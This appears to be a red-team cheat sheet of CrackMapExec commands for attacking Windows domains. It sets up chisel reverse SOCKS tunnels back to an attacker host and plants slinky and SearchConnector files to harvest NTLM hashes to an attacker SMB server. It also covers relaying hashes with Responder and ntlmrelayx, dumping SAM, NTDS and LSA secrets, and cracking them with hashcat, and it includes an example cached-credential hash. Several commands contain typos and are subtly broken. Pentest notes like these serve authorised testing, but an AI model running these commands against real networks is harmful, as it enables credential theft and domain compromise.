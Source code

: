 
## Proxy
- cme --put-file chisel.exe \\path\\to\file: Upload chisel linux/windows 
  - cme -x "C:\Path\to\chisel.exe client $ATTACKER:8080 R:socks"
  - cme -x "C:\Path\to\chisel.exe server --socks5" <=> chisel client $target:port socks

- cme -x "Stop-Process -Name chisel -Force"
- netstat -tlnp => check connection
- Proxychain: socks5 127.0.0.1 PORT_CHISEL
  - proxychain -q cme ... --shares

- Test connection
  - netstat -tlnp

## Hashes & Secrets
- [Farming](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/)
  - -M slinky -o NAME=share_name SEVER=$attacker
    1. create windows shortcut 
    2. 1 connect to attacker smb server + extract hash
    3. responder / impacket-ntlmrelayx
       1. responder -I interface (/usr/share/responder/logs/)
       2. impacket-ntlmrelay -tf relay.txt -smb2support --no-http
       3. impacket-ntlmrelay -tf $TARGET  -smb2support --no-http -c 'command'
       4. hashcat -m 5600
    4. Remove share
- sign must be disabled:
  - cme smb --gen-relay-list relay.txt
  - ntmlrelayx.py -tf relay.txt -smb2support --no-http 
    - proxychains -q impacket-ntlmrelayx -tf relay.txt -smb2support --no-http
  - cme sbm -H hash_value

- Cleaning
  - cme smb **-M slinky** -o NAME=important CLEANUP=YES
  - cme smb **-M drop-sc**: create SearchConector-ms file
    - URL=\\\\$Attacker\\secret SHARE=name FILENAME=namen CLEANUP=True
    - ntlmrelays --tf relax.txt -smb2support --http

- Secrets
  - SAM: security account manager: credential for local users
    - cme smb/winrm --sam
  - NTDS AD DB
    - cme smb --ntds
      - --user NAME
      - --enabled: on-screen
  - LSA
    - --lsa: local security policy, authenticate, log users, store private data
    - *$DCC2$*: Domain Cached Credentials 2: NO Pas the Hash

```
DCC2$10240#svc_ca#fbcdebbc8c6fce61286e48448f061573
fbcdebbc8c6fce61286e48448f061573
hashcat -m 2100
```

